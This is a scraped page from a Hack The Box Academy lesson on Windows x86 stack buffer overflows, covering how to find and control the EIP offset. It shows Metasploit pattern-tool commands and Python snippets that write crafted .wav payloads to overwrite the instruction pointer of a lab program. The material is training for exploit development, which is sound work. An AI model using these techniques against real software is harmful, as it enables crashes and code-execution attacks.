 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/946
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 946
// Section Title: Controlling EIP
// Page Title: Hack The Box - Academy
// Page Number: 04
-->

# Controlling EIP

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 04

#### 

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Controlling EIP

## EIP Offset

## Creating Unique Pattern

``` shell-session
[!bash!]$ /usr/bin/msf-pattern_create -l 5000

Aa0Aa1Aa2...SNIP...3Gk4Gk5Gk
```

``` cmd-session
--Pattern
Generates a non repeating pattern. A pattern of pure ASCII characters can be generated up to 20277 and up to  
66923 if special characters are used. The offset of a particular string can be found inside the pattern by 
providing a search string (must be at least 3 chars long).
    Pattern create: ERC --pattern <create | c> <length>
    Pattern offset: ERC --pattern <offset | o> <search string>
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_pattern_create_1.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_pattern_create_1.jpg)

## Writing Our Exploit

``` python
def eip_offset():
    payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk",
					"utf-8")
```

``` python
with open('pattern.wav', 'wb') as f:
        f.write(payload)
```

``` python3
eip_offset()
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_python_idle_exploit_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_python_idle_exploit_2.jpg)

## Calculating EIP Offset

![https://academy.hackthebox.com/storage/modules/89/win32bof_x32dbg_restart.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_x32dbg_restart.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip.jpg)

``` shell-session
[!bash!]$ /usr/bin/msf-pattern_offset -q 31684630

[*] Exact match at offset 4112
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip_ascii.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip_ascii.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset_findnrp.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset_findnrp.jpg)

## Controlling EIP

``` python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_control_eip.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_control_eip.jpg)

# 

# 

#### Questions

####